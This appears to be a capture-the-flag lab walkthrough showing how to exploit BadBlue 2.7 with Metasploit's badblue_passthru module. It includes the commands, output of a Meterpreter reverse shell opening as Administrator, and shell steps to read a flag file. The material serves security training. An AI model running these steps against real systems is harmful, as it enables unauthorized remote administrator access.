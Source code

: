 ```bash
msfconsole
```

```bash
search badblue 2.7
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.28.13
exploit
```

```bash
[*] Started reverse TCP handler on 10.10.24.3:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (180291 bytes) to 10.2.28.13
[*] Meterpreter session 1 opened (10.10.24.3:4444 -> 10.2.28.13:49330) at 2023-02-25 15:32:52 +0530

meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

- Use [meterpreter](https://www.offsec.com/metasploit-unleashed/about-meterpreter/) commands to find the flag

```bash
shell
cd /
dir
type flag.txt
```

<details><summary>Reveal Flag: 🚩</summary></details>

------

